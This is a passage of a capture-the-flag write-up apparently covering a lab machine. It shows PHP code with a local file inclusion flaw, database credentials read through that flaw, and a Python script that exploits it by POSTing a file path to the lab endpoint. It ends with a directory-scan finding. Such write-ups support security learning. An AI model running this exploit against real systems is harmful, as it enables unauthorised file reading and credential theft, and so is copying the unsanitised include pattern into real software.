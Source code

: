 This script simply including file from filesystem if method set to `1` with parameter `book` and second thing is that this script including `../db/db.php`
```php
... [snip] ...
    require '../db/db.php';
... [snip] ...
    elseif ($_POST['method'] == 1){
        $out = file_get_contents('../books/' . $_POST['book']);
    }
... [snip] ...
```

Using lfi vuln read that `db.php` file amd get dbcreds, But remote host not allowed access to mysql server.
```php
... [snip] ...
$user="bread";
$password="jUli901";
... [snip] ...
```

Get the lfi but burp out of lfi look awful so i create a simple python script. Not perfect but can do the job.
```py
import requests as r
import sys

url = 'http://10.10.10.228/includes/bookController.php'


def lfi(file):
    data = {
        "title": "lfi",
        "author": "lfi",
        "method": 1,
        "book": file
    }

    rspn = r.post(url, data=data)
    cleaned = rspn.text.replace('\\r\\n', '\n').replace('\\', '')
    return cleaned


print(lfi(sys.argv[1])[1:-1])
```

### Portal

Running Gobuster found `/portal`, which redirect to `/portal/login.php`
